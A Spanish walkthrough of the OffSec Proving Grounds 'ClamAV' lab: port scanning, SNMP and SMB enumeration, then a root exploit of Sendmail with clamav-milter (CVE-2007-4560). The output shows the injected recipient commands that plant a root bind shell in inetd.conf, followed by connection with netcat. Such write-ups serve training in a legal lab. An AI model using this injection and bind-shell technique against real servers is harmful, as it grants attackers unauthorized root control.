

En este tutorial, demuestro cómo obtuve acceso completo al sistema ClamAV de OffSec Proving Grounds.

## Espacio de Aprendizaje

- Enumeración SNMP
- Sendmail + ClamAV Milter 0.91.2 (CVE-2007-4560)

## Escaneo Nmap

```bash

PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:3e:a4:13:5f:9a:32:c0:8e:46:eb:26:b3:5e:ee:6d (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBALr/RyBq802QXa1Bh4SQEUHqD+p9TEx3SUvPHACbT0tQqR3aali+ifDiOpqMToVaRfWzYOOsoM2Neg0EPa4KsJIwSTkFqjd/3Ynp3Yzus0nN+gtmbQRKzo8QfStr6IGt6kaI6viXl4z3ww6ryEkjNnb74KCooHOjyeGPi3o89GVnAAAAFQDSg0dwMrSn9juW/XPvo8S8kVOhDQAAAIARaqFuvZCqiTY8i/PITsr5WvyZm8mQ0nuqB6gW6y1h4jDAvtHO4TIZEMJ5vtPst0w9mVSYGVFlukhCqhbJdBigqH1WB1p7kwC78M9k23zZmzuwbnzYPiLHpEdfFEWdO62ZoCSFBXWOqe1IZaTaRCgUZPeB1QFXRCQ96VrJizPLUAAAAIEArOALxR78fZrUqmUcYOs5tf8wu5xChAUqAfh1ElJ6r3EjcWwXId12jo1uAz0JmCTluUQhjhNDJB6XIgUzoFzW1NZPjGCkex7s1+2+TUTmqFr6Nr97k2RIy91Bpuxwg5jzE83cKPCOoWVbYlfzAqNkF4xxznfC3fRtmj2e/L9chzg=
|   1024 af:a2:49:3e:d8:f2:26:12:4a:a0:b5:ee:62:76:b0:18 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEAviGcDkDxKzv7w++DXy6q+5AJDpG/q8Um8j4BheW9fgwsOvQCuDvLcPUIKMYEz4aUgkt/sSCXu29XTlu79pEkb48+BnaRCKrHLH/YWM79GT6Q5ie9jP47HjjJeCCBI/c02qpkH/fjz9FK4HQPC7WtXY9EgW4IMB+pzX2KZxK2PF0=
25/tcp  open  smtp        syn-ack ttl 63 Sendmail 8.13.4/8.13.4/Debian-3sarge3
| smtp-commands: localhost.localdomain Hello [192.168.49.69], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info
80/tcp  open  http        syn-ack ttl 63 Apache httpd 1.3.33 ((Debian GNU/Linux))
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Ph33r
|_http-server-header: Apache/1.3.33 (Debian GNU/Linux)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp open  smux        syn-ack ttl 63 Linux SNMP multiplexer
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
Service Info: Host: localhost.localdomain; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-07-13T09:53:51-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59559/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 42972/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 27404/udp): CLEAN (Failed to receive data)
|   Check 4 (port 42495/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   0XBABE<00>           Flags: <unique><active>
|   0XBABE<03>           Flags: <unique><active>
|   0XBABE<20>           Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_clock-skew: mean: 5h59m58s, deviation: 2h49m42s, median: 3h59m58s
|_smb2-time: Protocol negotiation failed (SMB2)

```

```
PORT    STATE SERVICE    VERSION
137/udp open  netbios-ns Samba nmbd netbios-ns (workgroup: WORKGROUP)
161/udp open  snmp       SNMPv1 server (public)
Service Info: Hosts: 0XBABE, 0xbabe.local
```

## Enumeración de Servicios

### SMB

Puedo listar los recursos compartidos de forma **anónima**.

```bash
smbclient -N -L //192.168.69.42/

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
        ADMIN$          IPC       IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------
        0XBABE               0xbabe server (Samba 3.0.14a-Debian) brave pig

        Workgroup            Master
        ---------            -------
        WORKGROUP            0XBABE

```

Nada interesante por el momento.


### HTTP



Convirtiendo el binario de vuelta a texto se revela el mensaje: `ifyoudontpwnmeuran0b`. Intento enumerar más el servicio web, pero lo abandono por ahora.

### SNMP (161/UDP)

Ejecutando `snmp-check` podemos ver que **clamav-milter** está ejecutándose.

```bash
snmp-check 192.168.69.42
<SNIP>
  3777                  runnable              clamav-milter         /usr/local/sbin/clamav-milter  --black-hole-mode -l -o -q /var/run/clamav/clamav-milter.ctl
<SNIP>
```


## Explotación

Buscando un poco, logré encontrar este exploit:

```bash
searchsploit clamav-milter
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
Sendmail with clamav-milter < 0.91.2 - Remote Command Execution         | multiple/remote/4761.pl
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

Aunque no logré enumerar la versión de **clamav-milter**, al profundizar en mi enumeración con `snmp-check` vi que **sendmail** estaba ejecutándose.

```bash
 3881                  runnable              sendmail-mta          sendmail: MTA: accepting connections
```

Después de leer y entender el exploit, ejecutamos el exploit.

```bash
perl 4761.pl 192.168.69.42
Sendmail w/ clamav-milter Remote Root Exploit
Copyright (C) 2007 Eliteboy
Attacking 192.168.69.42...
220 localhost.localdomain ESMTP Sendmail 8.13.4/8.13.4/Debian-3sarge3; Mon, 13 Jul 2026 10:38:00 -0400; (No UCE/UBE) logging access from: [192.168.49.69](FAIL)-[192.168.49.69]
250-localhost.localdomain Hello [192.168.49.69], pleased to meet you
250-ENHANCEDSTATUSCODES
250-PIPELINING
250-EXPN
250-VERB
250-8BITMIME
250-SIZE
250-DSN
250-ETRN
250-DELIVERBY
250 HELP
250 2.1.0 <>... Sender ok
250 2.1.5 <nobody+"|echo '31337 stream tcp nowait root /bin/sh -i' >> /etc/inetd.conf">... Recipient ok
250 2.1.5 <nobody+"|/etc/init.d/inetd restart">... Recipient ok
354 Enter mail, end with "." on a line by itself
250 2.0.0 66DEc0xD004175 Message accepted for delivery
221 2.0.0 localhost.localdomain closing connection
```

Luego, deberíamos poder conectarnos a la máquina (El exploit abre un puerto para que nos conectemos - Bind Shell)

```bash
nc -nv 192.168.69.42 31337
(UNKNOWN) [192.168.69.42] 31337 (?) open
script /dev/null -c bash
ROOT@0XBABE:/# ifconfig
IFCONFIG
ETH0      LINK ENCAP:ETHERNET  HWADDR 00:50:56:86:2C:56  
          INET ADDR:192.168.69.42  BCAST:192.168.69.255  MASK:255.255.255.0
          INET6 ADDR: FE80::250:56FF:FE86:2C56/64 SCOPE:LINK
          UP BROADCAST RUNNING MULTICAST  MTU:1500  METRIC:1
          RX PACKETS:11964 ERRORS:0 DROPPED:0 OVERRUNS:0 FRAME:0
          TX PACKETS:6530 ERRORS:0 DROPPED:0 OVERRUNS:0 CARRIER:0
          COLLISIONS:0 TXQUEUELEN:1000 
          RX BYTES:1430509 (1.3 MIB)  TX BYTES:2606566 (2.4 MIB)
          BASE ADDRESS:0X2000 MEMORY:FD5C0000-FD5E0000 

LO        LINK ENCAP:LOCAL LOOPBACK  
          INET ADDR:127.0.0.1  MASK:255.0.0.0
          INET6 ADDR: ::1/128 SCOPE:HOST
          UP LOOPBACK RUNNING  MTU:16436  METRIC:1
          RX PACKETS:0 ERRORS:0 DROPPED:0 OVERRUNS:0 FRAME:0
          TX PACKETS:0 ERRORS:0 DROPPED:0 OVERRUNS:0 CARRIER:0
          COLLISIONS:0 TXQUEUELEN:0 
          RX BYTES:0 (0.0 B)  TX BYTES:0 (0.0 B)

ROOT@0XBABE:/# id
ID
UID=0(ROOT) GID=0(ROOT) GROUPS=0(ROOT)
```

## Post-Explotación

**Ya soy root**

## Pruebas




```text
N/A
```





```text
1acff55d89ed39f1482a90a21f1b1f81
```



